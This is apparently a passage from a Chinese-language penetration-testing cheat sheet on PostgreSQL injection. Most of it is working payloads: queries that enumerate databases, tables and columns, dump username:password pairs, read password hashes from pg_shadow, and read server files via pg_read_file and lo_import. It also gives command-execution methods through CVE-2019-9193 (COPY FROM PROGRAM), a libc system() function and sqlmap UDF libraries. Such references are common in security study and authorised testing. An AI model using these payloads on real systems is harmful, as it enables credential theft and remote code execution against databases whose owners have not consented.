     - `SELECT $$This is a string$$`
- 爆庫名
    - `SELECT datname FROM pg_database`
- 爆表名
    - `SELECT tablename FROM pg_tables WHERE schemaname='dbname'`
- 爆Column
    - `SELECT column_name FROM information_schema.columns WHERE table_name='admin'`
- Dump all 
    - `array_to_string(array(select userid||':'||password from users),',')`
- 列舉 privilege
    - `SELECT * FROM pg_roles;`
- 列舉用戶 hash
    - `SELECT usename, passwd FROM pg_shadow`
- RCE
    - CVE-2019–9193
        - 在 9.3 版本實作了 `COPY TO/FROM PROGRAM`
        - 版本 9.3 ~ 11.2 預設啟用
        - 讓 super user 和任何在 `pg_read_server_files` 群組的 user 可以執行任意指令
        - 方法
            - `DROP TABLE IF EXISTS cmd_exec;`
            - `CREATE TABLE cmd_exec(cmd_output text);`
            - `COPY cmd_exec FROM PROGRAM 'id';`
            - `SELECT * FROM cmd_exec;`
    - 版本 8.2 以前
        - `CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;`
        - `select system('id');`
    - UDF
        - sqlmap udf: https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql
        - `CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/xxx/cmd.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;`
        - `SELECT sys_eval("id");`
- 其它
    - version()
    - current\_database()
    - user
        - current_user
        - `SELECT usename FROM pg_user;`
    - getpgusername()
    - current\_schema
    - current\_query()
    - inet\_server\_addr()
    - inet\_server\_port()
    - inet\_client\_addr()
    - inet\_client\_port()
    - type conversion
        - `cast(count(*) as text)`
    - `md5('abc')`
    - `replace('abcdefabcdef', 'cd', 'XX')` => `abXXefabXXef`
    - `pg_read_file(filename, offset, length)`
        - 讀檔
        - 只能讀 data_directory 下的
    - `pg_ls_dir(dirname)`
        - 列目錄內容
        - 只能列 data_directory 下的
    - PHP 的 `pg_query()` 可以多語句執行
    - `lo_import()`, `lo_get()` 讀檔
        - `select cast(lo_import('/var/lib/postgresql/data/secret') as text)` => `18440`
        - `select cast(lo_get(18440) as text)` => `secret_here`
